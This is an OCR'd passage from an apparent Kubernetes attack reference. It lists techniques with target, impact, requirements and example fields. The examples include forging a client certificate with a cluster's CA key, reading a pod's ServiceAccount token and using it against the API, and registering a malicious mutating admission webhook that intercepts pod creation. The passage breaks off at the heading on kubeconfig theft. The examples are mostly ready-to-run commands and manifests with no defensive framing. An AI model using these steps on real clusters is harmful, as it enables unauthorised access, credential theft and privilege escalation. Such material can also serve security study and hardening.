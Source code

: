   ```bash
  openssl genrsa -out hacker.key 2048
  openssl req -new -key hacker.key -out hacker.csr -subj "/CN=hacker"
  openssl x509 -req -in hacker.csr -CA ca.crt -CAkey ca.key -CAcreateserial -out hacker.crt -days 365
  kubectl --client-certificate=hacker.crt --client-key=hacker.key get pods
  ```

### 1.4 ServiceAccount Token Hijacking

* **Target**: any pod with ServiceAccount mounted
* **Impact**: Use token to access API
* **Requires**: access to pod/container with elevated permissions
* **Example**:

  ```bash
  kubectl exec -it <pod> -- cat /var/run/secrets/kubernetes.io/serviceaccount/token
  export TOKEN=$(cat token)
  curl -H "Authorization: Bearer $TOKEN" https://kubernetes.default.svc/api
  ```

### 1.5 Malicious Admission Webhook

* **Target**: Kubernetes control over Pod admission
* **Impact**: Inject or mutate pods to escalate privileges
* **Requires**: ability to register a Mutating/Validating webhook
* **Example**:

  ```yaml
  apiVersion: admissionregistration.k8s.io/v1
  kind: MutatingWebhookConfiguration
  metadata:
    name: evil-webhook
  webhooks:
    - name: pod.mutate.evil.io
      clientConfig:
        service:
          name: evil-service
          namespace: evil-namespace
          path: "/mutate"
        caBundle: <base64-encoded-CA>
      rules:
        - operations: ["CREATE"]
          apiGroups: [""]
          apiVersions: ["v1"]
          resources: ["pods"]
  ```

### 1.6 Kubeconfig Leakage or Replacement

* **Target**: \~/.kube/config or externally stored kubeconfigs
* **Impact**: Reuse existing credentials with `cluster-admin` RoleBinding
* **Requires**: access to user device or storage
* **Example**:

